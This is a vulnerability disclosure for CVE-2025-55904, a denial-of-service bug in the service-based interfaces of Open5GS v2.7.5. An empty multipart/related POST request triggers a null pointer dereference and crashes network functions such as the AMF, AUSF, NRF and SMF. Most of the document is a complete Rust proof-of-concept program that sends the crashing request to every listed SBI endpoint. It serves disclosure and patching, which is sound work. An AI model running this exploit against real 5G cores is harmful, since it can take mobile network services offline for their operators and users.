## CVE-2025-55904: Denial of Service in Open5GS v2.7.5 on Service-Based Interfaces (SBIs) via empty multipart/related POST request

A denial of service (DoS) vulnerability exists in the Service-Based Interface (SBI) implementation of Open5GS v2.7.5. This issue has a wide impact, involving the SBI interfaces of multiple network functions, including the AMF, AUSF, BSF, NRF, NSSF, PCF, SMF, UDM, and UDR.

This bug arises because the `parse_multipart` function in `lib/sbi/message.c`, line 2825, is dereferencing `http->content` without verifying it to be non-NULL; an empty `Content-Type: multipart/related` POST request results in a null pointer dereference and segmentation fault, causing the implicated SBI service to crash.

The issue was fixed on commit [67ba7f92bbd7a378954895d96d9d7b05d5b64615](https://github.com/open5gs/open5gs/commit/67ba7f92bbd7a378954895d96d9d7b05d5b64615).

### Steps to reproduce:

1) Follow the [Open5GS Quickstart Guide](https://open5gs.org/open5gs/docs/guide/01-quickstart/) to set up the Open5GS core environment.

2) Adjust the IP addresses and ports if necessary, and run the following rust program to send the malicious payload.

```rust
use solicit::http::client::write_preface;
use solicit::http::HttpScheme;
use solicit::http::connection::HttpConnection;
use solicit::client::SimpleClient;
use std::net::TcpStream;
use std::io::{self, Write};

const TARGETS: &[(&str, &str)] = &[
    ("AMF-sbi", "127.0.0.5:7777"),
    ("AUSF-sbi", "127.0.0.11:7777"),
    ("BSF-sbi", "127.0.0.15:7777"),
    ("NRF-sbi", "127.0.0.10:7777"),
    ("NSSF-sbi", "127.0.0.14:7777"),
    ("PCF-sbi", "127.0.0.13:7777"),
    ("SMF-sbi", "127.0.0.4:7777"),
    ("UDM-sbi", "127.0.0.12:7777"),
    ("UDR-sbi", "127.0.0.20:7777"),
];

fn send_payload(target_sbi: &str, address: &str) {
    print!("Sending to {}... ", target_sbi);
    io::stdout().flush().unwrap();

    let stream = match TcpStream::connect(address) {
        Ok(stream) => stream,
        Err(e) => {
            println!("FAILED ({})", e);
            return;
        }
    };

    let result = (|| -> Result<(), Box<dyn std::error::Error>> {
        write_preface(&mut &stream)?;
        let conn = HttpConnection::<TcpStream, TcpStream>::with_stream(stream, HttpScheme::Http);
        let mut client = SimpleClient::with_connection(conn, address.to_string())?;
        
        // Content-Type is multipart/related (to access parse_multipart function)
        let headers = vec![
            ("content-type".into(), "multipart/related".into()),
        ];
        
        // HTTP POST request with empty body (to trigger segfault)
        match client.post(b"/anything/v1/", &headers, Vec::new()) {
            Ok(_) => Ok(()),
            Err(e) => {
                if e.to_string().contains("IO error") {
                    Ok(())
                } else {
                    Err(e.into())
                }
            }
        }
    })();

    match result {
        Ok(_) => println!("DONE"),
        Err(e) => println!("FAILED ({})", e),
    }
}

fn main() {
    for (target_sbi, address) in TARGETS.iter() {
        send_payload(target_sbi, address);
    }
}
```

3) Observe the behavior of the targeted SBI services.
